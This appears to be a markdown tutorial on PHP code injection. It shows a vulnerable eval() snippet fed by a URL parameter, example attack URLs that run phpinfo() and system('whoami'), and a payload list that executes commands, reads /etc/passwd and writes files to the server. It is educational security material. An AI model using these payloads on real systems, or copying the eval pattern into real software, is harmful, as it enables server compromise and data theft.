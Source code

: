 # Server Side Code Injection (PHP) 
Code injection is the embedding of code into software, which disturbs the functioning of the software. The code introduced to the software can disturb the database integrity, security, features, etc.

PHP code injection is a vulnerability that allows an attacker to inject custom code into the server side scripting engine. This vulnerability occurs when an attacker can control all or part of an input string that is fed into an eval() function call. Eval will execute the argument as code.

Code Injection differs from Command Injection in that an attacker is only limited by the functionality of the injected language itself. If an attacker is able to inject PHP code into an application and have it executed, they are only limited by what PHP is capable of. Command injection consists of leveraging existing code to execute commands, usually within the context of a shell

##### Posiblity of attack
  These types of attacks are usually made possible due to a lack of proper input/output data validation, for example:

  • allowed characters (standard regular expressions classes or custom)

  • data format

  • amount of expected data
  
 ### Example
       //The URL to access this https://www.example.com/index.php?id=1
        $id = "idnumber";
        $x = $_GET['id'];
        eval("\$id = \$x;");
        
  ###### In this web application, there is no input validation.

  ###### https://www.example.com/index.php?id=1; phpinfo()

  ###### The above URL will show all the info about the PHP version.

  ###### An attacker can execute system commands by requesting the below URL.

  ###### https://www.example.com/index.php?id=1; system(‘whoami’)

  ###### The above URL will show the output of the command
  
  While exploiting bugs like these, an attacker may want to execute system commands. In this case, a code injection bug can also be used for command injection, 
   for example: /index.php?arg=1; system('id')

  ## PHP Code Injection Payloads
  
    system('id')
    exec('id')
    shell_exec('id')
    passthru('id')
    exec('id')
    `id`
    echo `id`
    readfile('/etc/passwd')
    file_get_contents('/etc/passwd')
    pcntl_exec("id")
    $file = fopen("test1.txt", "w"); echo fwrite($file, "hello world"); fclose($file);
    $file = fopen("phpinfo.php", "w"); echo fwrite($file, "<?php phpinfo() ?>"); fclose($file);


### PHP Code Injection Report

  Reported by [egix](https://hackerone.com/egix)

  Reported to [Invision Power Services, Inc.](https://hackerone.com/ips)

  https://hackerone.com/reports/1092574
  
  
  Reported by [cutoffurmind](https://hackerone.com/cutoffurmind)

  Reported to [Mail.ru](https://hackerone.com/mailru)

  https://hackerone.com/reports/798135
    
### Example CVE

  - https://www.exploit-db.com/exploits/40027
				
  - https://www.exploit-db.com/exploits/38569

  - https://www.exploit-db.com/exploits/38547

  - https://www.exploit-db.com/exploits/38543
  
### References

  1. [OWASP Code Injection](https://owasp.org/www-community/attacks/Code_Injection)
  
  2. [Cobalt PHP Code Injection](https://cobalt.io/blog/a-pentesters-guide-to-code-injection)
    
